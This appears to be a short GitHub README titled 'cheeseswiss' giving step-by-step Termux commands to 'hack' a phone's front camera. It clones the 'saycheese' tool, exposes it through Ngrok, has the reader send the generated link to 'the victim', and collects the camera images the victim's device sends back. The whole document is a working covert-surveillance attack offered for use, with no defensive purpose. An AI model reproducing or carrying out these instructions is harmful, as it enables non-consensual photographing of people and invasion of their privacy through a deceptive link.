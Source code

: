 # cheeseswiss
HOW TO HACK FRONT CAMERA USING TERMUX
  1. apt upgrade &amp;&amp; apt update

  2. apt install php 

 3. apt install git  

4. git clone https://github.com/Anonymous3-SIT/saycheese 

 5. ls  

6. cd saycheese  

7. ls  8. chmod +x * 

 9. ls  

10. bash (Then turn on your hotspot) and complete the command by writing saycheese.sh  

11. Select option 2 which is Ngrok  

12. It will then download Ngrok automatically and send you a link which you should send to the victim  

13. Then wait for receiving cam files 

 14. CTRL +c to stop receiving images  

15. ls  16. mv cam_______________.png /sdcard/images  1

7. Then go to your file manager and look for the folder of images in your sd card directory.  

Copy with credit Credits to @ibrahimhamis
